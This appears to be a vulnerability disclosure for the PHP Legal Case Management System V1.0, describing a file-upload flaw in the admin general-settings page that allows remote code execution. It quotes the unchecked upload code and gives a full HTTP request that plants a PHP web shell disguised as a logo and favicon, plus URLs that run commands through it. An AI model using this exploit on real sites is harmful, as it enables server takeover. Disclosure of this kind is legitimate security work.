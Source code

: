 # Legal Case Management System - File upload RCE (/admin/general-setting) 

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version: 

```
V1.0
```

### Tested on: 

```
PHP, Apache, MySQL
```

### Affected Page:

```
/admin/general-setting
```

After submitting the logo and favicon files on the /admin/general-setting page, the program did not verify the file name and file content, resulting in a file upload vulnerability.

```php
// GeneralSettingDateController.php
//----------LOGO image--------
if ($request->hasFile('logo')) {
    if ($GeneralSettings->logo_img != '') {
        $imageUnlink = public_path() . config('constants.LOGO_FOLDER_PATH') . '/' . $GeneralSettings->logo_img;
        if (file_exists($imageUnlink)) {
            unlink($imageUnlink);
        }
        $GeneralSettings->logo_img = '';
    }
    $image = $request->file('logo');
    $name = time().'_'.rand(1,4).$image->getClientOriginalName();
    $destinationPath = public_path() . config('constants.LOGO_FOLDER_PATH');
    $image->move($destinationPath, $name);
    $GeneralSettings->logo_img=$name;
}
//---------------------favicon  Image --------------
if ($request->hasFile('favicon')) {
    if ($GeneralSettings->favicon_img != '') {
        $imageUnlink = public_path() . config('constants.FAVICON_FOLDER_PATH') . '/' . $GeneralSettings->favicon_img;
        if (file_exists($imageUnlink)) {
            unlink($imageUnlink);
        }
        $GeneralSettings->favicon_img = '';
    }
    $image = $request->file('favicon');
    $name = time().'_'.rand(1,4).$image->getClientOriginalName();
    $destinationPath = public_path() . config('constants.FAVICON_FOLDER_PATH');
    $image->move($destinationPath, $name);
    $GeneralSettings->favicon_img=$name;
}
```

### Proof of vulnerability:

Upload png, capture the packet, modify the file content to malicious code, and modify the file suffix to php

**Burp Request:**

```
POST http://192.168.150.131/admin/general-setting/1 HTTP/1.1
Host: 192.168.150.131
Content-Length: 1373
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylBtBKn2IqCPlAeTQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/general-setting
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjVxVUJCcWRjMWZ1OVBackFDazVicHc9PSIsInZhbHVlIjoibzJyQ2ZyNGZXY1pLSzkxRWJcL0pwdVFzd0lmamJRNEJxSzFhR2pURUlNY01jUnRySHdVblRYekN2U2orakRFaUwiLCJtYWMiOiI0MzU5ZjE1ZjA5ZDQwOTAwMzQ0M2YxMTgyOGQ0ZmMxZjlmOTViOWJjZmEzYTNhYzM1NWQ2OTE1OTIzMzExYzIzIn0%3D; test_session=eyJpdiI6ImdFVUtFdjFCK3pOZGpPNlwvRkZBYUFRPT0iLCJ2YWx1ZSI6InpQZ1lUazhhdWdqTE96U24rdW5jV0lBMGp1bW9IT1lHWEJyU3BmQkx3ZUR6aDhKZHhZajFXQ3J0VWRJV1g4eDIiLCJtYWMiOiJhMDZmYTI2ZmY1Nzk0MTZlYjdiMGJiNGU4NWFjNTQ1OTMzYWY0YThlZjRlZjdkZDNlM2U0NzNmZWExMTM1Y2JlIn0%3D
Connection: close

------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="_token"

8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="cmp_name"

1
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="address"

804, Rivera Wave, Nr. McDonald's, Kalawad Road
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="country"

103
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="state"

1707
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="city_id"

21611
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="pincode"

360005
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="favicon"; filename="1.php"
Content-Type: image/png

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundarylBtBKn2IqCPlAeTQ
Content-Disposition: form-data; name="logo"; filename="2.php"
Content-Type: image/png

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundarylBtBKn2IqCPlAeTQ--

```

```
http://192.168.150.131/public//upload/favicon/1715170022_11.php?cmd=whoami
http://192.168.150.131/public//upload/logo/1715170022_32.php?cmd=whoami
```

### Screenshot

![image-20240508204759322](./screenshot/image-20240508204759322.png)

![image-20240508204928433](./screenshot/image-20240508204928433.png)

![image-20240508204957758](./screenshot/image-20240508204957758.png)
